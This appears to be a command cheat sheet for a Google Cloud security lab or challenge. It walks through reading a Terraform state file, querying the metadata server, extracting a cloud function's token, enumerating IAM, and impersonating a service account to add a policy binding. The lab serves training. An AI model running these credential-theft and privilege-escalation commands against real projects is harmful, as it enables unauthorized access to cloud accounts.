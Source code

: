 # Commands

<details>
  <summary>***** Module 2 *****</summary>

## Module 2

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/infrastructure_config.tfstate

  <details>
    <summary>Walkthrough Module 2</summary>
    
  ssh into vm
  #####
    ssh -i <private key file> alice@<compute instance IP> 

  </details>

</details>

#

<details>
  <summary>***** Module 3 *****</summary>

## Module 3

show VM service account
#####
    gcloud auth list

background: metadata server
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

demonstrate limited access scopes
#####
    gcloud compute instances list

show access scopes from tokeninfo endpoint
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

list storage buckets from VM
#####
    gsutil ls

  <details>
    <summary>Walkthrough Module 3</summary>

  list function source code bucket
  #####
      gsutil ls gs://cloud-function-bucket-challenge4

  read source code
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py

  execute function invocation script
  #####
      ./invoke_monitoring_function.sh

  extract command to get function token
  #####
    curl -s -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

  save the new token in env var and check access scopes
  #####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$TOKEN
    
  </details>

</details>

#

<details>
  <summary>***** Challenge 5 *****</summary>

## Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

  <details>
    <summary>Walkthrough Challenge 5</summary>
  
  impersonate and set binding
  #####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>
  
  </details>

</details>
